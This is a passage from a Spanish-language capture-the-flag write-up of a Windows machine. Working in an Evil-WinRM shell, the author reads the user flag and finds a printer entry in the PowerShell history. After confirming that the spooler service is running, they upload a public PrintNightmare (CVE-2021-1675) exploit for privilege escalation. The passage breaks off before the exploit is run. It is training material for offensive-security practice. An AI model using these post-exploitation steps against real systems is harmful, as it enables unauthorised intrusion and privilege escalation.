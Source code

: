 Una vez en este punto, es posible ver la flag `user.txt` en `C:\Users\tony\Desktop\user.txt`:

```powershell
*Evil-WinRM* PS C:\Users\tony> (type .\Desktop\user.txt).Substring(0,15)
3dc0ff40753a2a2
```

# Root.txt

Enumero el sistema en busca de posibles **vectores de escalada de privilegios** hasta que encuentro uno.

Probando a leer el historial de **powershell**, el cual suele estar localizado en la ruta `C:\users\USUARIO\appdata\roaming\microsoft\windows\PowerShell\PSReadline` me encuentro con esto:

```powershell
*Evil-WinRM* PS C:\Users\tony\appdata\Roaming\Microsoft\Windows\PowerShell\PSReadline> type ConsoleHost_history.txt
Add-Printer -PrinterName "RICOH_PCL6" -DriverName 'RICOH PCL6 UniversalDriver V4.23' -PortName 'lpt1:'

ping 1.1.1.1
ping 1.1.1.1
```
Vemos en el historial que se ha añadido una impresora.

Si sueles seguir noticiarios de ciberseguridad, probablemente hayas oido hablar de la vulnerabilidad **PrintNightmare**, la cual se aprovecha del servicio de impresión para instalar **drivers maliciosos** con altos privilegios.

Para confirmar esto, veamos si el servicio `Spoolsv` está ejecutándose:

```powershell
*Evil-WinRM* PS C:\Users\tony\appdata\Roaming\Microsoft\Windows\PowerShell\PSReadline> ps | findstr spoolsv
    384      22     5228      14520 ...13            1160 spoolsv
```
Y vemos que sí. 

Bien, intento buscar un exploit para explotar esta vulnerabilidad.

   * [calebstewart/CVE-2021-1675](https://github.com/calebstewart/CVE-2021-1675){:target="\_blank"}{:rel="noopener nofollow"}

Encuentro un exploit escrito en **powershell**.

Lo transfiero a la máquina:

```bash
*Evil-WinRM* PS C:\Users\tony> upload CVE-2021-1675.ps1
Info: Uploading CVE-2021-1675.ps1 to C:\Users\tony\CVE-2021-1675.ps1

                                                             
Data: 238080 bytes of 238080 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\Users\tony> dir


    Directory: C:\Users\tony


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---        6/11/2021   7:01 AM                Contacts
d-r---        2/26/2022   3:02 PM                Desktop
*d-r---        2/26/2022   3:45 PM                Documents
d-r---        6/11/2021   7:05 AM                Downloads
```